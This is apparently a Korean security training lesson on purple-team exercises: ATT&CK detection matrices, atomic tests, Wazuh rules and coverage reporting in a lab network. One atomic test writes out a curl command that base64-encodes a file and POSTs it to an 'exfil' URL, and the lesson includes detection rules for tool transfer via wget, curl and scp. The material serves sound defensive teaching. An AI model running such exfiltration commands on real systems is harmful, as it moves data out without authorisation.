

# Week 13: 레드팀 연동

## 학습 목표
- Purple Team 운영 방법론을 이해하고 실행할 수 있다
- ATT&CK 기법별 탐지 격차(Detection Gap)를 분석할 수 있다
- 레드팀 공격 결과를 기반으로 탐지 룰을 개선할 수 있다
- 공격-탐지 매핑 매트릭스를 구성하여 SOC 커버리지를 시각화할 수 있다
- Bastion를 활용하여 자동화된 Purple Team 훈련을 수행할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:50 | Purple Team 이론 + 방법론 (Part 1) | 강의 |
| 0:50-1:30 | 탐지 격차 분석 (Part 2) | 강의/토론 |
| 1:30-1:40 | 휴식 | - |
| 1:40-2:30 | 공격 시뮬레이션 + 탐지 검증 (Part 3) | 실습 |
| 2:30-3:10 | 룰 개선 + 자동화 (Part 4) | 실습 |
| 3:10-3:20 | 정리 + 과제 안내 | 정리 |

---

## 용어 해설

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **레드팀** | Red Team | 공격자 역할 (모의 해킹) | 도둑 역할 |
| **블루팀** | Blue Team | 방어자 역할 (탐지/대응) | 경비원 역할 |
| **퍼플팀** | Purple Team | 레드+블루 협업 (공격+방어 개선) | 합동 훈련 |
| **탐지 격차** | Detection Gap | ATT&CK 기법 중 탐지 못하는 영역 | 경비 사각지대 |
| **커버리지** | Coverage | 탐지 가능한 ATT&CK 기법의 비율 | 경비 범위 |
| **에뮬레이션** | Emulation | 실제 공격 기법을 재현하는 것 | 모의 훈련 |
| **atomic test** | Atomic Test | 단일 ATT&CK 기법을 테스트하는 최소 단위 | 단위 테스트 |
| **TTP** | Tactics, Techniques, Procedures | 공격자의 전술, 기법, 절차 | 범행 수법 |

---

# Part 1: Purple Team 이론 + 방법론 (50분)

## 1.1 Purple Team이란?

```
[기존 모델: 레드 vs 블루 (대립)]
  Red Team: 공격 → 보고서 제출
  Blue Team: 보고서 수신 → (한참 뒤) 개선
  문제: 소통 단절, 개선 지연, 일회성

[Purple Team 모델: 협업]
  Red + Blue = Purple
  공격 실행 → 즉시 탐지 확인 → 즉시 룰 개선 → 재테스트
  장점: 실시간 피드백, 빠른 개선, 지속적

Purple Team 운영 사이클:
  1. ATT&CK 기법 선택
  2. Red: 공격 실행
  3. Blue: 탐지 여부 확인
  4. 탐지 실패 시: 룰 작성/개선
  5. Red: 재공격으로 룰 검증
  6. 다음 기법으로 이동
```

## 1.2 ATT&CK 기반 탐지 매트릭스

```bash
cat << 'SCRIPT' > /tmp/detection_matrix.py
#!/usr/bin/env python3
"""ATT&CK 탐지 매트릭스"""

matrix = {
    "Initial Access": {
        "T1190 Exploit Public App": {"탐지": "O", "룰": "Suricata + WAF"},
        "T1566 Phishing": {"탐지": "X", "룰": "메일 서버 없음"},
    },
    "Execution": {
        "T1059.004 Unix Shell": {"탐지": "O", "룰": "Wazuh 100700"},
        "T1053.003 Cron": {"탐지": "O", "룰": "Wazuh 100701"},
    },
    "Persistence": {
        "T1098 Account Manipulation": {"탐지": "△", "룰": "기본 룰만"},
        "T1136 Create Account": {"탐지": "O", "룰": "Wazuh 5901"},
        "T1543.002 Systemd Service": {"탐지": "O", "룰": "Wazuh 100702"},
    },
    "Privilege Escalation": {
        "T1548.003 Sudo Abuse": {"탐지": "O", "룰": "SIGMA 100510"},
        "T1068 Exploitation": {"탐지": "X", "룰": "미구현"},
    },
    "Defense Evasion": {
        "T1070.004 File Deletion": {"탐지": "△", "룰": "FIM 필요"},
        "T1036 Masquerading": {"탐지": "X", "룰": "미구현"},
    },
    "Credential Access": {
        "T1110 Brute Force": {"탐지": "O", "룰": "Wazuh 100002"},
        "T1003.008 /etc/shadow": {"탐지": "△", "룰": "FIM으로 부분 탐지"},
    },
    "Discovery": {
        "T1082 System Info": {"탐지": "△", "룰": "단일 명령은 미탐"},
        "T1049 Network Connections": {"탐지": "X", "룰": "미구현"},
    },
    "Lateral Movement": {
        "T1021.004 SSH": {"탐지": "O", "룰": "Wazuh SSH 룰"},
        "T1570 Tool Transfer": {"탐지": "X", "룰": "미구현"},
    },
    "Exfiltration": {
        "T1048 Alternative Protocol": {"탐지": "△", "룰": "부분 탐지"},
        "T1041 C2 Channel": {"탐지": "O", "룰": "IOC 기반"},
    },
}

total = 0
detected = 0
partial = 0
missing = 0

print("=" * 70)
print("  ATT&CK 탐지 매트릭스")
print("=" * 70)

for tactic, techniques in matrix.items():
    print(f"\n  [{tactic}]")
    for tech, info in techniques.items():
        total += 1
        status = info["탐지"]
        if status == "O":
            detected += 1
            mark = "[O]"
        elif status == "△":
            partial += 1
            mark = "[△]"
        else:
            missing += 1
            mark = "[X]"
        print(f"    {mark} {tech:35s} → {info['룰']}")

print(f"\n=== 커버리지 요약 ===")
print(f"  전체: {total}개 기법")
print(f"  탐지(O):  {detected}개 ({detected/total*100:.0f}%)")
print(f"  부분(△): {partial}개 ({partial/total*100:.0f}%)")
print(f"  미탐(X):  {missing}개 ({missing/total*100:.0f}%)")
print(f"  커버리지: {(detected+partial*0.5)/total*100:.0f}%")
SCRIPT

python3 /tmp/detection_matrix.py
```

---

# Part 2: 탐지 격차 분석 (40분)

## 2.1 격차 분석 방법

```
[탐지 격차 분석 프로세스]

Step 1: ATT&CK 기법 목록 작성 (우선순위 기반)
Step 2: 현재 탐지 룰 매핑
Step 3: 각 기법에 대해 공격 실행
Step 4: 탐지 성공/실패 기록
Step 5: 격차 목록 작성
Step 6: 우선순위별 룰 개선 계획

[우선순위 기준]
  Critical: 자주 사용되는 기법 + 미탐
  High:     자주 사용되는 기법 + 부분 탐지
  Medium:   드문 기법 + 미탐
  Low:      드문 기법 + 부분 탐지
```

## 2.2 Atomic Test 개념

```bash
cat << 'SCRIPT' > /tmp/atomic_tests.py
#!/usr/bin/env python3
"""Atomic Red Team 테스트 시뮬레이션"""

tests = [
    {
        "id": "T1059.004-1",
        "technique": "T1059.004 Unix Shell",
        "name": "비정상 셸 실행",
        "command": "bash -c 'whoami && id && uname -a'",
        "expected_detection": "Wazuh: 셸에서 정찰 명령 실행",
        "risk": "low",
    },
    {
        "id": "T1053.003-1",
        "technique": "T1053.003 Cron",
        "name": "crontab 수정",
        "command": "(crontab -l 2>/dev/null; echo '* * * * * echo test') | crontab -",
        "expected_detection": "Wazuh: crontab 변경 탐지",
        "risk": "low",
    },
    {
        "id": "T1136.001-1",
        "technique": "T1136.001 Local Account",
        "name": "사용자 계정 생성",
        "command": "useradd -m testuser",
        "expected_detection": "Wazuh: 새 계정 생성 탐지",
        "risk": "medium",
    },
    {
        "id": "T1082-1",
        "technique": "T1082 System Info Discovery",
        "name": "시스템 정보 수집",
        "command": "hostname && cat /etc/os-release && df -h",
        "expected_detection": "Wazuh: 정찰 명령 조합 탐지",
        "risk": "low",
    },
    {
        "id": "T1048-1",
        "technique": "T1048 Exfiltration Over Alternative Protocol",
        "name": "curl 기반 데이터 유출",
        "command": "cat /etc/hostname | base64 | curl -X POST -d @- http://example.com/exfil",
        "expected_detection": "Wazuh/Suricata: 아웃바운드 POST + base64",
        "risk": "medium",
    },
]

print("=" * 60)
print("  Atomic Red Team 테스트 목록")
print("=" * 60)

for test in tests:
    print(f"\n  [{test['id']}] {test['name']}")
    print(f"    기법: {test['technique']}")
    print(f"    명령: {test['command'][:50]}")
    print(f"    예상: {test['expected_detection']}")
    print(f"    위험: {test['risk']}")
SCRIPT

python3 /tmp/atomic_tests.py
```

---

# Part 3: 공격 시뮬레이션 + 탐지 검증 (50분)

## 3.1 Atomic Test 실행 + 탐지 확인

> **실습 목적**: ATT&CK 기법별 공격을 시뮬레이션하고 Wazuh에서 탐지되는지 확인한다.
>
> **배우는 것**: Purple Team 워크플로우, 공격-탐지 매핑, 탐지 격차 식별

```bash
# Atomic Test #1: T1059.004 Unix Shell
echo "=== Atomic Test: T1059.004 Unix Shell ==="
echo "  [RED] 정찰 명령 실행..."
whoami && id && uname -a

sleep 2

echo ""
echo "  [BLUE] Wazuh 경보 확인..."
ssh ccc@10.20.30.100 \
  "tail -20 /var/ossec/logs/alerts/alerts.log 2>/dev/null | grep -i 'whoami\|uname\|discovery'" 2>/dev/null || \
  echo "  → 탐지 결과: 확인 필요"

echo ""
echo "=== Atomic Test: T1053.003 Cron ==="
echo "  [RED] crontab 변경 시뮬레이션 (읽기만)..."
crontab -l 2>/dev/null || echo "  (crontab 없음)"

sleep 2

echo ""
echo "  [BLUE] Wazuh 경보 확인..."
ssh ccc@10.20.30.100 \
  "tail -20 /var/ossec/logs/alerts/alerts.log 2>/dev/null | grep -i 'cron'" 2>/dev/null || \
  echo "  → 탐지 결과: 확인 필요"
```

## 3.2 Bastion 자동화 Purple Team

```bash
export BASTION_API_KEY="ccc-api-key-2026"

PROJECT_ID=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "purple-team-exercise",
    "request_text": "Purple Team 훈련 - ATT&CK 탐지 검증",
    "master_mode": "external"
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['id'])")

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/plan" \
  -H "X-API-Key: $BASTION_API_KEY"
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute" \
  -H "X-API-Key: $BASTION_API_KEY"

# Red Team: 공격 시뮬레이션 + Blue Team: 탐지 확인
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[RED] T1082 Discovery\" && hostname && uname -a && id && echo RED_TEST_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[BLUE] 경보 확인\" && tail -10 /var/ossec/logs/alerts/alerts.log 2>/dev/null | grep -c \"Rule:\" && echo BLUE_CHECK_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.100:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }'

sleep 3
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/$PROJECT_ID/evidence/summary" | \
  python3 -m json.tool 2>/dev/null | head -30
```

---

# Part 4: 룰 개선 + 자동화 (40분)

## 4.1 탐지 격차 기반 룰 개선

```bash
# 탐지 격차에서 발견된 미탐 기법에 대한 룰 추가
ssh ccc@10.20.30.100 << 'REMOTE'

sudo tee -a /var/ossec/etc/rules/local_rules.xml << 'RULES'

<group name="local,purple_team,detection_gap,">

  <!-- T1082 System Discovery: 정찰 명령 조합 탐지 -->
  <rule id="100900" level="8" frequency="3" timeframe="60">
    <if_matched_group>syslog</if_matched_group>
    <match>whoami|hostname|uname|id |cat /etc/passwd|ifconfig|ip addr</match>
    <same_source_ip/>
    <description>[Purple] 시스템 정찰 명령 조합 탐지 (T1082)</description>
    <mitre>
      <id>T1082</id>
    </mitre>
    <group>purple_team,discovery,</group>
  </rule>

  <!-- T1036 Masquerading: /tmp에서 정상 프로세스명으로 실행 -->
  <rule id="100901" level="12">
    <match>/tmp/</match>
    <regex>sshd|apache|nginx|systemd|cron</regex>
    <description>[Purple] 프로세스 위장 탐지 - /tmp에서 시스템 프로세스명 (T1036)</description>
    <mitre>
      <id>T1036</id>
    </mitre>
    <group>purple_team,defense_evasion,</group>
  </rule>

  <!-- T1570 Tool Transfer: scp/wget/curl로 도구 전송 -->
  <rule id="100902" level="10">
    <regex>scp |wget |curl -O|curl --output</regex>
    <match>/tmp/|/dev/shm/|/var/tmp/</match>
    <description>[Purple] 도구 전송 탐지 - 임시 디렉토리로 다운로드 (T1570)</description>
    <mitre>
      <id>T1570</id>
    </mitre>
    <group>purple_team,lateral_movement,</group>
  </rule>

</group>
RULES

sudo /var/ossec/bin/wazuh-analysisd -t
echo "Exit code: $?"

REMOTE
```

## 4.2 Purple Team 보고서 생성

```bash
cat << 'SCRIPT' > /tmp/purple_team_report.py
#!/usr/bin/env python3
"""Purple Team 훈련 보고서"""

print("""
================================================================
          Purple Team 훈련 보고서
================================================================

1. 훈련 개요
   일시: 2026-04-04
   참가: Red Team (SOC L3), Blue Team (SOC L2)
   범위: ATT&CK 18개 기법 (Linux 환경)
   대상: secu, web, siem 서버

2. 결과 요약
   전체 기법: 18개
   탐지 성공: 10개 (56%)
   부분 탐지:  4개 (22%)
   미탐:       4개 (22%)

3. 주요 발견 사항
   [Critical] T1036 Masquerading: 탐지 룰 없음 → 신규 작성
   [Critical] T1570 Tool Transfer: 탐지 룰 없음 → 신규 작성
   [High]     T1082 Discovery: 단일 명령은 탐지 불가 → 조합 탐지 룰 추가
   [Medium]   T1003.008 /etc/shadow: FIM만으로 부분 탐지 → 프로세스 감사 추가

4. 개선 조치
   - 신규 룰 3개 작성 (100900-100902)
   - 기존 룰 2개 임계치 조정
   - FIM 모니터링 경로 2개 추가

5. 다음 훈련 계획
   - 2주 후: 재테스트 (개선 룰 검증)
   - 1개월 후: 새로운 기법 세트 (Cloud 관련)
""")
SCRIPT

python3 /tmp/purple_team_report.py
```

---

## 체크리스트

- [ ] Purple Team의 개념과 Red/Blue Team과의 차이를 설명할 수 있다
- [ ] ATT&CK 기반 탐지 매트릭스를 구성할 수 있다
- [ ] 탐지 격차(Detection Gap) 분석 프로세스를 이해한다
- [ ] Atomic Test 개념과 실행 방법을 알고 있다
- [ ] 공격 시뮬레이션 후 Wazuh에서 탐지 여부를 확인할 수 있다
- [ ] 미탐 기법에 대한 Wazuh 룰을 작성할 수 있다
- [ ] Bastion로 자동화된 Purple Team 훈련을 수행할 수 있다
- [ ] Purple Team 보고서를 작성할 수 있다
- [ ] 탐지 커버리지를 백분율로 측정할 수 있다
- [ ] 격차 우선순위(Critical/High/Medium/Low)를 판정할 수 있다

---

## 과제

### 과제 1: Purple Team 미니 훈련 (필수)

ATT&CK 기법 5개를 선택하여 Purple Team 훈련을 수행하라:
1. 기법별 Atomic Test 설계
2. 공격 실행 + 탐지 확인
3. 탐지 격차 분석
4. 미탐 기법에 대한 룰 작성
5. 재테스트로 검증

### 과제 2: 탐지 매트릭스 완성 (선택)

ATT&CK Linux 기법 30개 이상에 대해 탐지 매트릭스를 작성하라:
1. 각 기법의 현재 탐지 상태
2. 커버리지 백분율
3. 개선 로드맵 (3/6/12개월)

---

## 보충: Purple Team 고급 기법

### Atomic Red Team 자동 실행 프레임워크

```bash
cat << 'SCRIPT' > /tmp/atomic_framework.py
#!/usr/bin/env python3
"""Atomic Red Team 자동 실행 + 탐지 검증 프레임워크"""
import json
from datetime import datetime

class AtomicTest:
    def __init__(self, technique, name, command, expected_rule, risk="low"):
        self.technique = technique
        self.name = name
        self.command = command
        self.expected_rule = expected_rule
        self.risk = risk
        self.result = None
        self.detected = None
    
    def to_dict(self):
        return {
            "technique": self.technique,
            "name": self.name,
            "command": self.command[:50],
            "expected_rule": self.expected_rule,
            "risk": self.risk,
            "result": self.result,
            "detected": self.detected,
        }

# 테스트 정의
tests = [
    AtomicTest("T1059.004", "Unix Shell 정찰", 
               "whoami && id && hostname", "100900", "low"),
    AtomicTest("T1053.003", "Crontab 열거",
               "crontab -l 2>/dev/null", "100700", "low"),
    AtomicTest("T1082", "시스템 정보 수집",
               "uname -a && cat /etc/os-release", "100900", "low"),
    AtomicTest("T1016", "네트워크 정보 수집",
               "ip addr && ip route && cat /etc/resolv.conf", "-", "low"),
    AtomicTest("T1049", "네트워크 연결 열거",
               "ss -tnpa && netstat -an 2>/dev/null", "-", "low"),
    AtomicTest("T1057", "프로세스 열거",
               "ps auxf", "-", "low"),
    AtomicTest("T1083", "파일/디렉토리 탐색",
               "ls -la /etc/ /var/www/ /tmp/", "-", "low"),
    AtomicTest("T1222.002", "파일 권한 변경",
               "chmod +x /tmp/test_file 2>/dev/null", "-", "low"),
    AtomicTest("T1070.004", "파일 삭제",
               "touch /tmp/.test_delete && rm -f /tmp/.test_delete", "-", "medium"),
    AtomicTest("T1548.003", "Sudo 열거",
               "sudo -l 2>/dev/null", "100510", "low"),
]

# 시뮬레이션 실행
print("=" * 70)
print("  Atomic Red Team 자동 실행 프레임워크")
print(f"  실행 시각: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
print("=" * 70)

detected = 0
not_detected = 0
partial = 0

for i, test in enumerate(tests):
    test.result = "executed"
    # 탐지 시뮬레이션 (실제로는 Wazuh 경보 확인)
    if test.expected_rule != "-":
        test.detected = "YES"
        detected += 1
    else:
        test.detected = "NO"
        not_detected += 1
    
    mark = "[O]" if test.detected == "YES" else "[X]"
    print(f"\n  {mark} Test {i+1}: {test.technique} - {test.name}")
    print(f"      명령: {test.command[:50]}")
    print(f"      예상 룰: {test.expected_rule}")
    print(f"      탐지: {test.detected}")

total = len(tests)
coverage = detected / total * 100

print(f"\n{'='*70}")
print(f"  결과 요약")
print(f"  전체: {total}개 | 탐지: {detected}개 ({coverage:.0f}%) | 미탐: {not_detected}개")
print(f"{'='*70}")

# JSON 보고서 출력
report = {
    "date": datetime.now().strftime('%Y-%m-%d'),
    "total_tests": total,
    "detected": detected,
    "not_detected": not_detected,
    "coverage": f"{coverage:.1f}%",
    "tests": [t.to_dict() for t in tests],
}

print(f"\n=== JSON 보고서 (파일 저장용) ===")
print(json.dumps(report, indent=2, ensure_ascii=False)[:500] + "...")
SCRIPT

python3 /tmp/atomic_framework.py
```

### MITRE ATT&CK Navigator 연동

```bash
cat << 'SCRIPT' > /tmp/attack_navigator.py
#!/usr/bin/env python3
"""ATT&CK Navigator 레이어 파일 생성"""
import json

# ATT&CK Navigator 레이어 형식
layer = {
    "name": "SOC Detection Coverage",
    "versions": {"attack": "14", "navigator": "4.9.1", "layer": "4.5"},
    "domain": "enterprise-attack",
    "description": "현재 SOC 탐지 커버리지 매핑",
    "filters": {"platforms": ["Linux"]},
    "sorting": 0,
    "layout": {"layout": "side", "showName": True},
    "hideDisabled": False,
    "techniques": [
        {"techniqueID": "T1059.004", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1053.003", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1110.001", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1136.001", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1548.003", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1021.004", "color": "#31a354", "comment": "탐지 가능", "score": 100},
        {"techniqueID": "T1190", "color": "#31a354", "comment": "Suricata+WAF", "score": 100},
        {"techniqueID": "T1082", "color": "#fee08b", "comment": "부분 탐지", "score": 50},
        {"techniqueID": "T1003.008", "color": "#fee08b", "comment": "FIM 부분 탐지", "score": 50},
        {"techniqueID": "T1048", "color": "#fee08b", "comment": "IOC 기반만", "score": 50},
        {"techniqueID": "T1070.004", "color": "#fee08b", "comment": "FIM 필요", "score": 50},
        {"techniqueID": "T1036", "color": "#d73027", "comment": "미구현", "score": 0},
        {"techniqueID": "T1068", "color": "#d73027", "comment": "미구현", "score": 0},
        {"techniqueID": "T1049", "color": "#d73027", "comment": "미구현", "score": 0},
        {"techniqueID": "T1570", "color": "#d73027", "comment": "미구현", "score": 0},
    ],
    "gradient": {
        "colors": ["#d73027", "#fee08b", "#31a354"],
        "minValue": 0,
        "maxValue": 100,
    },
}

print("=" * 60)
print("  ATT&CK Navigator 레이어 생성")
print("=" * 60)

# 색상별 통계
green = sum(1 for t in layer["techniques"] if t["color"] == "#31a354")
yellow = sum(1 for t in layer["techniques"] if t["color"] == "#fee08b")
red = sum(1 for t in layer["techniques"] if t["color"] == "#d73027")
total = len(layer["techniques"])

print(f"\n  초록 (탐지 가능): {green}개 ({green/total*100:.0f}%)")
print(f"  노랑 (부분 탐지): {yellow}개 ({yellow/total*100:.0f}%)")
print(f"  빨강 (미구현):     {red}개 ({red/total*100:.0f}%)")

# 파일 저장
with open('/tmp/attack_navigator_layer.json', 'w') as f:
    json.dump(layer, f, indent=2)

print(f"\n  레이어 파일: /tmp/attack_navigator_layer.json")
print(f"  → https://mitre-attack.github.io/attack-navigator/ 에서 업로드")
SCRIPT

python3 /tmp/attack_navigator.py
```

### 탐지 룰 품질 관리 프로세스

```bash
cat << 'SCRIPT' > /tmp/rule_quality.py
#!/usr/bin/env python3
"""탐지 룰 품질 관리 프로세스"""

print("=" * 60)
print("  탐지 룰 품질 관리 프로세스")
print("=" * 60)

lifecycle = {
    "1. 요구사항": {
        "입력": "Purple Team 미탐 결과, TI 보고서, 인시던트 교훈",
        "출력": "탐지 요구사항 문서",
        "담당": "Tier 3 + SOC 매니저",
    },
    "2. 개발": {
        "입력": "요구사항 + ATT&CK 기법",
        "출력": "SIGMA/Wazuh 룰 초안",
        "담당": "Tier 3",
    },
    "3. 테스트": {
        "입력": "룰 초안 + 테스트 데이터",
        "출력": "양성/음성 테스트 결과",
        "담당": "Tier 2/3",
    },
    "4. 리뷰": {
        "입력": "테스트 결과 + 룰",
        "출력": "승인/반려",
        "담당": "동료 리뷰 (Peer Review)",
    },
    "5. 배포": {
        "입력": "승인된 룰",
        "출력": "프로덕션 SIEM에 적용",
        "담당": "Tier 2 + Bastion 자동 배포",
    },
    "6. 모니터링": {
        "입력": "프로덕션 경보",
        "출력": "오탐률, 탐지율 통계",
        "담당": "Tier 1/2",
    },
    "7. 튜닝": {
        "입력": "모니터링 통계",
        "출력": "임계치 조정, 화이트리스트 추가",
        "담당": "Tier 2/3",
    },
}

for phase, info in lifecycle.items():
    print(f"\n  {phase}")
    for key, value in info.items():
        print(f"    {key}: {value}")

# 품질 메트릭
print("""
=== 룰 품질 메트릭 ===
  정밀도 (Precision): TP / (TP + FP) > 80%
  재현율 (Recall): TP / (TP + FN) > 90%
  오탐률: FP / (TP + FP) < 20%
  미탐률: FN / (TP + FN) < 10%
  
  TP = True Positive (실제 공격을 탐지)
  FP = False Positive (정상을 공격으로 오탐)
  FN = False Negative (실제 공격을 놓침)
""")
SCRIPT

python3 /tmp/rule_quality.py
```

### Purple Team 성숙도 평가

```bash
cat << 'SCRIPT' > /tmp/purple_team_maturity.py
#!/usr/bin/env python3
"""Purple Team 성숙도 평가"""

levels = {
    "Level 1 - Ad Hoc": {
        "특징": "비정기적 침투 테스트, Red/Blue 분리 운영",
        "빈도": "연 1회 모의해킹",
        "자동화": "없음",
        "결과": "보고서만, 실질 개선 미흡",
    },
    "Level 2 - Reactive": {
        "특징": "모의해킹 결과 기반 룰 업데이트",
        "빈도": "반기 1회",
        "자동화": "수동 테스트",
        "결과": "일부 탐지 룰 개선",
    },
    "Level 3 - Proactive": {
        "특징": "정기 Purple Team 훈련, ATT&CK 기반",
        "빈도": "분기 1회",
        "자동화": "Atomic Test 스크립트",
        "결과": "탐지 격차 체계적 관리",
    },
    "Level 4 - Continuous": {
        "특징": "자동화된 Purple Team 파이프라인",
        "빈도": "월 1회 이상",
        "자동화": "Bastion/SOAR 연동",
        "결과": "탐지 커버리지 실시간 추적",
    },
    "Level 5 - Optimized": {
        "특징": "AI 기반 공격 시뮬레이션 + 자동 룰 생성",
        "빈도": "상시 운영",
        "자동화": "완전 자동화",
        "결과": "프로액티브 방어 달성",
    },
}

print("=" * 60)
print("  Purple Team 성숙도 모델")
print("=" * 60)

for level, info in levels.items():
    print(f"\n  --- {level} ---")
    for key, value in info.items():
        print(f"    {key}: {value}")

print("\n→ 현재 수준: Level 3 (Bastion 활용 시 Level 4 가능)")
SCRIPT

python3 /tmp/purple_team_maturity.py
```

### 공격 시뮬레이션 도구 가이드

```bash
cat << 'SCRIPT' > /tmp/attack_simulation_tools.py
#!/usr/bin/env python3
"""공격 시뮬레이션 도구 가이드"""

tools = {
    "Atomic Red Team": {
        "유형": "오픈소스",
        "설명": "ATT&CK 기법별 단위 테스트 라이브러리",
        "장점": "간단, 무료, 커뮤니티 지원",
        "단점": "자동화 수준 낮음, 수동 실행",
        "URL": "https://github.com/redcanaryco/atomic-red-team",
    },
    "CALDERA (MITRE)": {
        "유형": "오픈소스",
        "설명": "MITRE가 개발한 자동화 공격 에뮬레이션",
        "장점": "ATT&CK 네이티브, 에이전트 기반, 자동화",
        "단점": "설치 복잡, 학습 곡선",
        "URL": "https://caldera.mitre.org/",
    },
    "Infection Monkey": {
        "유형": "오픈소스",
        "설명": "네트워크 보안 테스트 (측면 이동 중심)",
        "장점": "자동 네트워크 스캔, 보고서 생성",
        "단점": "탐지보다 취약점 중심",
        "URL": "https://www.akamai.com/infectionmonkey",
    },
    "Bastion Purple Mode": {
        "유형": "내부 도구",
        "설명": "Bastion execute-plan 기반 자동 테스트",
        "장점": "우리 환경에 최적화, evidence 자동 기록",
        "단점": "커스텀 개발 필요",
        "URL": "http://localhost:9100 (내부)",
    },
}

print("=" * 60)
print("  공격 시뮬레이션 도구 가이드")
print("=" * 60)

for name, info in tools.items():
    print(f"\n  --- {name} ({info['유형']}) ---")
    print(f"    설명: {info['설명']}")
    print(f"    장점: {info['장점']}")
    print(f"    단점: {info['단점']}")
    print(f"    URL:  {info['URL']}")

print("""
=== 도구 선택 기준 ===
  예산 제한 → Atomic Red Team (무료)
  자동화 필요 → CALDERA
  네트워크 중심 → Infection Monkey  
  우리 환경 최적화 → Bastion Purple Mode

=== Purple Team 훈련 단계별 도구 ===
  Level 1: Atomic Red Team (수동)
  Level 2: CALDERA (반자동)
  Level 3: Bastion + CALDERA (자동화)
  Level 4: AI 기반 시뮬레이션 (자율)
""")
SCRIPT

python3 /tmp/attack_simulation_tools.py
```

### 탐지 커버리지 추적 자동화

```bash
cat << 'SCRIPT' > /tmp/coverage_tracker.py
#!/usr/bin/env python3
"""탐지 커버리지 추적 자동화"""
from datetime import datetime

# 월별 커버리지 추적
monthly_coverage = [
    ("2026-01", 45),
    ("2026-02", 52),
    ("2026-03", 61),
    ("2026-04", 72),
]

print("=" * 60)
print("  탐지 커버리지 월별 추이")
print("=" * 60)

for month, coverage in monthly_coverage:
    bar = "#" * (coverage // 2) + "." * ((100 - coverage) // 2)
    print(f"  {month}: [{bar}] {coverage}%")

# 개선 추세
if len(monthly_coverage) >= 2:
    first = monthly_coverage[0][1]
    last = monthly_coverage[-1][1]
    months = len(monthly_coverage)
    monthly_gain = (last - first) / (months - 1)
    print(f"\n  월평균 개선: +{monthly_gain:.1f}%p")
    
    # 목표 달성 예측
    target = 80
    if monthly_gain > 0:
        months_to_target = (target - last) / monthly_gain
        print(f"  80% 목표 달성 예상: {months_to_target:.0f}개월 후")

print("""
=== 커버리지 개선 전략 ===
  1. Purple Team 훈련 → 미탐 기법 발견 → 룰 추가
  2. SigmaHQ 신규 룰 주기적 반영
  3. 인시던트 교훈 → 새 탐지 룰
  4. TI 보고서 → IOC/행위 룰 추가
  5. ATT&CK 업데이트 → 새 기법 대응
""")
SCRIPT

python3 /tmp/coverage_tracker.py
```

---

## 다음 주 예고

**Week 14: SOC 자동화 + AI**에서는 LLM 기반 경보 분류, 자동 분석, 보고서 자동 생성을 학습한다.

---

## 웹 UI 실습

### 종합: Dashboard + OpenCTI + Suricata 통합 분석 (Purple Team)

#### Step 1: Wazuh Dashboard — Atomic Test 탐지 현황

> **접속 URL:** `https://10.20.30.100:443`

1. `https://10.20.30.100:443` 접속 → 로그인
2. **Modules → Security events** 에서 레드팀 공격 시뮬레이션 경보 확인:
   ```
   rule.mitre.id: * AND timestamp >= "now-1h"
   ```
3. **Modules → MITRE ATT&CK** 클릭 → ATT&CK 매트릭스 히트맵 확인
4. 탐지 성공 기법(초록)과 미탐 기법(빈칸)을 비교하여 탐지 격차 식별
5. Suricata 경보 필터링:
   ```
   rule.groups: suricata
   ```
6. 네트워크 레벨 탐지와 호스트 레벨 탐지의 커버리지 비교

#### Step 2: OpenCTI — 탐지 격차 매핑

> **접속 URL:** `http://10.20.30.100:8080`

1. `http://10.20.30.100:8080` 접속 → 로그인
2. **Techniques → Attack patterns** 에서 미탐 기법 검색
3. 해당 기법을 사용하는 알려진 위협 그룹 확인 → 리스크 우선순위 결정
4. **Arsenal → Malware/Tools** 에서 해당 기법의 실제 도구 확인
5. 탐지 격차 분석 결과를 OpenCTI에 **Note** 로 기록 → 팀 공유

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://localhost:8003`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
